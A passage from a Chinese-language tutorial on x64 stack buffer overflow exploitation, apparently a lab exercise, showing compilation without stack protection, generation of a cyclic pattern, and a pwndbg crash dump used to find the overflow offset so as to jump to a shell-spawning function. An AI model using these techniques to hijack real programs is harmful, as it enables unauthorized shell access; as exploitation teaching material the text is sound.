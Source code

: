 ``` c
}
```

我们`打开ASLR`并用如下方法编译：

``` bash
$ gcc -fno-stack-protector level3.c -o level3
```

通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到`callsystem()`这个函数的地址上即可。因为`程序本身`在内存中的`地址不是随机的`，所以不用担心函数地址发生改变。接下来就是要找溢出点了。我们还是用老方法生成一串定位字符串：

``` bash
$python pattern.py create 150 > payload
$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

然后运行`gdb ./level3`后输入这串字符串造成程序崩溃。

``` bash
$ gdb level3 
pwndbg> r < payload 
Starting program: /home/buffer/桌面/practice/ROP_x64/0x01/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005e7 in vulnerable_function ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────
*RAX  0x97
 RBX  0x0
*RCX  0x7ffff7b04260 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x200
 RDI  0x0
*RSI  0x7fffffffdc50 ◂— 0x6141316141306141 ('Aa0Aa1Aa')
*R8   0x400690 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x4004c0 (_start) ◂— xor    ebp, ebp
*R13  0x7fffffffddd0 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4134654133654132 ('2Ae3Ae4A')
*RSP  0x7fffffffdcd8 ◂— 0x3765413665413565 ('e5Ae6Ae7')
*RIP  0x4005e7 (vulnerable_function+32) ◂— ret    
────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────
 ► 0x4005e7 <vulnerable_function+32>    ret    <0x3765413665413565>
```
